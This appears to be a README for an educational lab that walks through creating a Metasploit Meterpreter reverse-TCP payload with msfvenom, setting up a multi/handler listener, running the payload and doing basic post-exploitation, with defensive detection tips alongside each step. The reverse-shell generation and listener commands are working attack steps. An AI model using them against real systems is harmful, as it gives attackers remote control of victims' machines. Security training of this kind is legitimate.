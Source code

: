 # 🛠️ Meterpreter Session Exploitation Project — Instructions (Conceptual & Defensive Focus)

This file provides a **step-by-step walkthrough** of the project in a **safe, educational environment**.
⚠️ **Important:** All instructions are conceptual or run locally on your own machine. Do **not** target unauthorized systems.

---

## 📦 Step 0: Prerequisites

Make sure you have:

*   Linux environment (Ubuntu/Debian recommended)
*   **Nmap** for service scanning
*   **Metasploit Framework** for conceptual payload generation
*   Terminal/CLI familiarity

---

## 0.1 Install Metasploit

```bash
sudo apt update
sudo apt install metasploit -y
```

## 0.2 Verify Installation

```bash
msfconsole --version
```

## 🖥️ Step 1: Generate Conceptual Payload

Objective: Understand how attackers deliver a reverse shell using `msfvenom`.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST="YOUR IP ADDRESS" LPORT=4444 -f elf -o shell64.elf
chmod +x shell64.elf
```

*   `-p` → Payload type
*   `-f elf` → Linux executable
*   `LHOST`/`LPORT` → Listener host/port

**Defensive Tip:** Watch for new executables in user directories (`/home/*/`) or temp folders. Check permissions:

```bash
ls -lah /home/*/
find /tmp/ -type f -perm /111
```

## 🔄 Step 2: Set Up Metasploit Listener

Objective: Prepare the listener (C2) to receive the payload (conceptual).

```bash
msfconsole
```

Configure handler:

```bash
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST "YOUR IP ADDRESS"
set LPORT 4444
run
```

**Defensive Tip:** Monitor processes listening on unexpected ports and alert on unknown network traffic.

## 🚀 Step 3: Simulate Payload Execution

Simulate victim execution:

```bash
./shell64.elf
```

**Defensive Notes:**

Check processes created by unprivileged users:

```bash
ps aux --sort=start_time | tail -n 20
```

Inspect system logs:

```bash
journalctl -xe
tail -f /var/log/auth.log
```

## 🧩 Step 4: Post-Exploitation Exploration (Conceptual)

Attacker perspective (conceptual commands):

```text
getuid   # Who am I?
sysinfo  # System information
pwd      # Current directory
```

Defensive perspective:

Detect unusual processes or parent-child relationships:

```bash
ps -ef --forest
lsof -i
```

⚠️ **Disclaimer**
This project is strictly educational and defensive.
Do not use these techniques outside controlled environments where you have explicit permission.
```
